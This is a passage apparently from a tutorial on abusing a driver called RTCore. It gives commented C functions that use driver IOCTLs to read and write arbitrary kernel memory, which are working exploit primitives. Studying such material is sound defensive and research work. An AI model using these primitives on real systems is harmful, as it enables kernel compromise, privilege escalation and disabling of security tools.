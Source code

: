 ```c

	// concatenate the two dwords into one qword
	*Value = dwHigh;
	*Value = (*Value << 32) | dwLow;

	return TRUE;
}

// on 64bit system the pointers are 64 bit
BOOL RTCoreReadPtr(ULONG_PTR Address, PULONG_PTR Value) {
	return RTCoreRead64(Address, Value);
}
```

The primitive function for writing is similar, except for the IOCTL and the structure initialization:  

```c
BOOL RTCoreWriteMemory(ULONG_PTR Address, DWORD ValueSize, DWORD Value) {
	// create the structure which will be passed to the driver in the input buffer
	RTC64_MEMORY_STRUCT memory_write;
	// initialize the structure to zeroes
	ZeroMemory(&memory_write, sizeof(memory_write));

	// set the target address
	memory_write.Address = Address;
	// set the number of bytes to write
	memory_write.Size = ValueSize;
	// set the valye to write
	memory_write.Value = Value;
	
	// offset is not used so it will be zero

	if (!hDevice) {
		PRINT_ERROR(L"[-] Device not opened!\r\n");
		return FALSE;
	}

	if (!DeviceIoControl(
			hDevice, 
			RTC64_IOCTL_MEMORY_WRITE, // IOCTL 0x8000204c
			&memory_write,            // the input buffer
			sizeof(memory_write),     // input buffer length 
			&memory_write,            // output buffer the same as input buffer
			sizeof(memory_write), 
			NULL, 
			NULL)) {
		PRINT_ERROR(L"[-] Memory Write IRP Failed!\r\n");
		return FALSE;
	}

	return TRUE;
}
```
